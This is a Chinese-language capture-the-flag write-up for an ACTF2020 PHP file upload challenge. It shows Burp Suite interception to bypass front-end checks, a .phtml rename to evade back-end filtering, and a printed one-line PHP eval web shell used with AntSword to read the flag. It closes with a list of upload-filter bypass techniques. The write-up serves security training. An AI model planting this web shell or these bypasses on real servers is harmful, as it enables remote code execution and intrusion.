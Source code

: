 # [ACTF2020 新生赛]Upload
TAG:PHP 任意文件上传    
## 解题过程：
![20210104101119](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210104101119.png)  
检查源代码发现文件上传位置，发现存在前端过滤代码  
![20210104102215](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210104102215.png)  
![20210104105857](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210104105857.png)
鼠标放在灯泡图案上也能发现上传接口  
![20210104102712](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210104102712.png)  
随意选择本地文件上传，并用burpsuite工具拦截数据包，将数据包发送到重发器进行任意文件上传测试，此时已经绕过前端检测    

![20210104103134](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210104103134.png)  
一句话木马上传失败，说明存在后端过滤，修改文件后缀为phtml即可上传成功  
```GIF89a? <script language="php">eval($_REQUEST[shell])</script>```  
![20210104110715](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210104110715.png)
使用蚁剑连接shell，在服务器根目录找到flag文件，打开终端使用cat命令查看文件内容获得flag  
![20210104110622](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210104110622.png)  
## 题目分析  
此题为存在一定过滤的任意文件上传考察，在实战中也较为常见  
前端过滤可以轻松的使用抓包工具绕过，对文件上传的影响甚微  
当php后缀被过滤后，可以采用以下绕过方法：  
+ 利用中间件解析漏洞绕过检查
+ 上传.user.ini或.htaccess将合法拓展名文件当作php文件解析
+ %00截断绕过
+ php3、php4、php5、php7、phtml、phps、pht